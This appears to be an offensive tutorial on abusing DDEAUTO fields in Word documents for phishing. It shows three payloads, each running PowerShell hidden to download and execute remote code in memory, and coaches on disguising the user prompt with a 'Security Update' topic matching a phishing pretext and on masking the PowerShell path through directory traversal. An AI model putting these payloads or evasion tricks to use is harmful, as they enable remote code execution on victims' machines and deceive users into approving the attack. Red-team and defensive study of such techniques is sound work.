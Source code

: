 
## 1. cmd.exe to powershell.exe

This technique executes cmd.exe to launch PowerShell, downloads an object from a remote location, and executes it in memory.

{ `DDEAUTO c:\\windows\\system32\\cmd.exe "/c powershell.exe -nop -w hidden -c IEX (new-object net.webclient).downloadstring('http://example.com/index')"` }

The prompt from this payload suspiciously references both powershell.exe and cmd.exe.

![basic prompt](/img/dde-word/04-basic-prompt.png)

Of course some users will click Yes, but we can do better.

---

## 2. Straight powershell.exe

PowerShell can be run directly with DDE by providing the full path to its executable (powershell.exe). In this step we will also specify a "topic" after the command string, which results in the prompt looking somewhat more legitimate.

{ `DDEAUTO "c:\\windows\\system32\\windowspowershell\\v1.0\\powershell.exe -w 1 -nop IEX (new-object net.webclient).downloadstring('http://example.com/index')" "Security Update"` }

The `"Security Update"` at the end of the field is an arbitrary string and can be changed to whatever aligns best with your phishing pretext. This "topic" replaces the first suspicious reference to powershell.exe, and the user will now be prompted with the following message:

![powershell prompt](/img/dde-word/05-powershell-prompt.png)

What about the second part of that prompt?

---

## 3. Hidden powershell.exe

In order to hide the second reference to PowerShell, we can obscure the true path to our executable by making it look like another program is being started.

{ `DDEAUTO "C:\\Programs\\Microsoft\\Office\\MSWord\\..\\..\\..\\..\\windows\\system32\\windowspowershell\\v1.0\\powershell.exe -w 1 -nop IEX(new-object system.net.webclient).downloadstring('http://example.com/index')" "Security Update"` }
